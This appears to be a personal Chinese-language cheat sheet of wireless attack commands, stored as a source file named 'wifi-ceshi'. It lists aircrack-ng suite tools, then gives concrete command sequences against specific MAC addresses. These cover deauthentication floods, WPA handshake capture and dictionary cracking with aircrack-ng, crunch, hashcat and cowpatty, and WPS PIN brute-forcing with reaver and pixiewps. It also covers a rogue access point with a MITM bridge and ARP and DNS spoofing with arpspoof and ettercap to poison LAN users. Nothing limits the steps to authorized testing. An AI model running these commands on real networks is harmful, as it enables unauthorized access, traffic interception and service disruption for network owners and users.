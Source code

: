wifi-ceshi
---
aircrack-ng 破解WEP以及WPA（字典攻击）密钥

airdecap-ng通过已知密钥来解密WEP或WPA嗅探数据

airmon-ng将网卡设定为监听模式

aireplay-ng数据包注入工具（Linux和Windows使用CommView驱动程序）

airodump-ng数据包嗅探：将无线网络数据输送到PCAP或IVS文件并显示网络信息

airtun-ng创建虚拟管道

airolib-ng保存、管理ESSID密码列表

packetforge-ng创建数据包注入用的加密包。

Tools混合、转换工具

airbase-ng软件模拟AP

airdecloak-ng消除pcap文件中的WEP加密

airdriver-ng无线设备驱动管理工具

airolib-ng保存、管理ESSID密码列表，计算对应的密钥

airserv-ng允许不同的进程访问无线网卡

buddy-ng easside-ng的文件描述

easside-ng 和AP接入点通讯（无WEP）

tkiptun-ng WPA/TKIP攻击

wesside-ng 自动破解WEP密钥

iwconfig

wlx00367652b3c9

ifconfig  wlx00367652b3c9

00:36:76:52:b3:c9

iwconfig wlx00367652b3c9 essid "jiali"

 ifconfig wlx00367652b3c9 up
 
iwlist

ruote -n

ifconfig wlx00367652b3c9 192.168.2.130 netmask 255.255.255.0

 airmon-ng  aircrack-ng
 
iwconfig  wlx00367652b3c9 channel 11

aireplay-ng -0 5 -a <mac> --ignore-negative wlx00367652b3c9 

 aircrack-ng 工具套件 -- airmon-ng ， aireplay-ng ， airodump-ng ， aircrack-ng

airodump-ng wlx00367652b3c9

airodump-ng –bssid 00:21:91:D2:8E:25 --channel 11 --write WEPCrackingDemo wlx00367652b3c9

airodump-ng –-bssid 14:75:90:57:F1:46 -–channel 11 –-write WPACrackingDemo wlx00367652b3c9

14:75:90:57:F1:46 jiali

airepaly-ng --deauth 1 -a  14:75:90:57:F1:46  wlx00367652b3c9  –-ignore-negative-one

tshark -r xx.cap

 airbase-ng  --essid jiali2 -c 11 wlx00367652b3c9


ifconfig eth0 0.0.0.0 up 

ifconfig ath0 0.0.0.0 up

网络桥接

echo 1 > /proc/sys/net/ipv4/ip_forward ip转发

brctl addbr mitm-bridge

 brctl addif mitm-bridge 
 
eth0 brctl addif mitm-bridge 

at0 ifconfig eth0 0.0.0.0 up

ifconfig at0 0.0.0.0 up


Wifite

aireplay-ng  -0 5  -a 14:75:90:57:F1:46 40:EC:99:D0:AA:E8 wlan0

aireplay-ng -0 5  -a 14:75:90:57:F1:46 -c 40:EC:99:D0:AA:E8 wlan0 

airodump-ng  -w /root/wpa-1 -c 1  wlan0 --ignore-negative-one   

airodump-ng  -w /root/wpa-1 -c 1  wlan0 --ignore-negative-one    检测
aircrack-ng -w testpass  /root/wpa-1-01.cap    破解
aireplay-ng -0 5  -a 14:75:90:57:F1:46 -c 40:EC:99:D0:AA:E8  wlan0 弹出网络

crunch

crunch 9 9 pass2 | aircrack-ng /root/wpa-1-01.cap -e jiali -w -

跑包

aircrack-ng /root/wpa-1-01.cap  -J /root/wpahashcap
hashcat
hashcat -m 2500 /root/wpahashcap.hccap /root/testpass 

cowpatty -f /root/testpass  -r /root/wpa-1-01.cap  -s jiali     

genpmk -f

wifite --dict /root/testpass  自动破解

彩虹表加速

li:~# airolib-ng RAINBOW_2 --import essid /root/essid 

 airolib-ng RAINBOW_2 --import passwd /root/testpass 
 
airolib-ng RAINBOW_2 --batch

airolib-ng RAINBOW_2 --export 

EWSA pyrit 慢慢跑

专业跑包 EWSA psk ，综合psk，pmk


云计算跑包

破解WPS

wash -i wlan0    判断wps wifite

wps，pin码破解原理

reaver命令穷举PIN码破解

-i  无线网卡名称

-b  目标AP的mac地址

-a  自动检测目标AP最佳配置

-S  使用最小的DH key，可以提高破解速度

-vv  显示更多的非严重警告（注意这是 2 个小写字母 v）

-d  即delay每穷举一次的闲置时间 预设为1秒

-c  信道编号

-p  PIN码四位或八位  //可以用8位直接找到密码。

知道pin码，改密码无用

reaver -b mac -i wlan0  -a -S -d 0 -t 1 -n -c 1

reaver -i wlan0mon -b xx:xx:xx:xx:xx:xx -vv

破解时推荐使用这个命令：reaver -i wlan0mon -b D8:15:0D:D6:13:92 -a -S -d9 -t9 -vv,因为–d9 –t9参数可以防止pin死路由器

 reaver  -i  wlan0mon -b  xx:xx:xx:xx:xx:xx  -p 12316977
 
pixiewps 破解wps，wifite 穷举

arpspoof

 cat /proc/sys/net/ipv4//ip_forward
 
arpspoof -i eth0 -t 10.1.1.3 10.1.1.254

ettercap 会话劫持，会话欺骗 抓包

毒化内网用户

ettercap dns 欺骗

无线不知道PIN： #reaver -i wlan0 -b mac地址 -vv

reaver -i wlan0 -b  FC:D7:33:99:87:E8  -a -S -d9 -t9 -vv

知道PIN ：  #reaver -i wlan0 -b FC:D7:33:99:87:E8  -P 12345670
 FC:D7:33:99:87:E8

aireplay-ng deauth攻击

aircrack-ng -w dic cap文件

freeradius

hostapd

asleap
